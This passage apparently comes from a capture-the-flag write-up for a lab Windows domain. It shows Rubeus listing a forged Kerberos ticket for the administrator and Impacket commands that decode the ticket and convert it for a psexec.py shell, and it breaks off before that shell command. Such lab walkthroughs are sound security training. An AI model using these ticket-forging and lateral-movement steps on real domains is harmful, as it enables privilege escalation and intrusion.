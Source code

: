 ### Use Ticket

#### Fails

In theory, I should be able to use this ticket right now. `Rubeus` shows the ticket in this session:

```
*Evil-WinRM* PS C:\programdata> .\Rubeus.exe klist
...[snip]...
Action: List Kerberos Tickets (Current User)

[*] Current LUID    : 0x65f382

  UserName                 : support
  Domain                   : SUPPORT
  LogonId                  : 0x65f382
  UserSID                  : S-1-5-21-1677581083-3380853377-188903654-1105
  AuthenticationPackage    : NTLM
  LogonType                : Network
  LogonTime                : 5/27/2022 12:15:24 PM
  LogonServer              : DC
  LogonServerDNSDomain     : support.htb
  UserPrincipalName        : support@support.htb

    [0] - 0x12 - aes256_cts_hmac_sha1
      Start/End/MaxRenew: 5/27/2022 12:38:17 PM ; 5/27/2022 10:38:17 PM ; 6/3/2022 12:38:17 PM
      Server Name       : cifs/dc.support.htb @ SUPPORT.HTB
      Client Name       : administrator @ SUPPORT.HTB
      Flags             : name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable (40a50000)
```

For me, it doesn’t work.

#### Remote Use

I’ll grab the last ticket `Rubeus` generated, and copy it back to my machine, saving it as `ticket.kirbi.b64`, making sure to remove all spaces. I’ll base64 decode it into `ticket.kirbi`:

```
oxdf@hacky$ base64 -d ticket.kirbi.b64 > ticket.kirbi
```

Now I need to convert it to a format that Impact can use:

```
oxdf@hacky$ ticketConverter.py ticket.kirbi ticket.ccache
Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

[*] converting kirbi to ccache...
[+] done
```

I can use this to get a shell using `psexec.py`:
